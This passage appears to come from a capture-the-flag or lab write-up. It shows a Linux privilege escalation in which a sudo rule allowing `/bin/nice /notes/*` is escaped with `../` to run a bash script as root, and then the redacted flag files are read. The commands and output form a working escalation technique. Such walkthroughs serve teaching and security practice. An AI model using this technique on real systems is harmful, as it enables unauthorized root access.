 There did not appear to be any `suid` permissions that were exploitable at first glance.
Another potential vector for privilege escalation is to see what executables the `webadmin` user might be able to run as `sudo`.

```text
webadmin@serv:~$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

It was curious that the scheduling utility `nice` had specific access to the `/notes` directory.
Investigation into the `/notes` directory did not yield anything interesting.
The `nice` utility could run executables beginning in the `notes` directory but was susceptible to being escaped out into another directory with `../`.
To get a `bash` shell, a small script was created in the user directory that was simply `/bin/bash`, but when run with root privilege it would be a privilege escalation.

```text
webadmin@serv:~$ echo "/bin/bash" > root.sh
webadmin@serv:~$ chmod +x root.sh
webadmin@serv:~$ sudo nice /notes/../home/webadmin/root.sh
root@serv:/home/webadmin# $ whoami
root
```

This was a successful privilege escalation.
The remaining step was to find the flag, which was in the `/root` directory.

```text
root@serv:/home/webadmin# cd
root@serv:~# ls
proof.txt  root.txt  snap
root@serv:~# cat root.txt
cat root.txt
Your flag is in another file...
root@serv:~# cat proof.txt
cat proof.txt
[[ REDACTED ]]
```

Final step was too show proof of `root` and the `ip addr` output.

```text
root@serv:~#   cat proof.txt && whoami && hostname && ip addr
[[ REDACTED ]]
root
serv
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
3: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:bf:d4:6d brd ff:ff:ff:ff:ff:ff
    inet 192.168.107.101/24 brd 192.168.107.255 scope global ens192
       valid_lft forever preferred_lft forever
```
